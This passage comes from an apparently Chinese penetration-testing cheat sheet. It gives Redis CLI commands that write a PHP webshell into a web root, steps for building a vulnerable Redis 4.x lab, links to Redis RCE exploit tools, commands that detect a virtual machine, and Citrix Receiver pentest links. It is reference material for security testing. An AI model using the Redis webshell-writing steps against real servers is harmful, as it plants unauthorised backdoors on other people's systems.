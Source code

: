     **往 web 物理路径写 webshell**

    当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell
    执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**Redis 4.x 5.x RCE**
- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)

---

# 虚拟化 & 云平台
**检测虚拟机**
- **windows**

    cmd : `systeminfo`

    Powershell : `get-wmiobject win32_computersystem | fl model`

- **linux**

    `lshw -class system | grep -i VM & grep -i virtual`

    `dmesg | grep -i VM & grep -i virtual`

    `dmidecode -s system-product-name`

## Citrix Receiver
`注意一下 1494 和 2598 端口`

**文章**
- [CitrixReceiver平台的一次渗透测试](https://forum.90sec.com/t/topic/310)
- [利用Citrix Receiver浏览器进行渗透](https://mp.weixin.qq.com/s/3p7e27JF6NV6C0_DEPiaqg)

---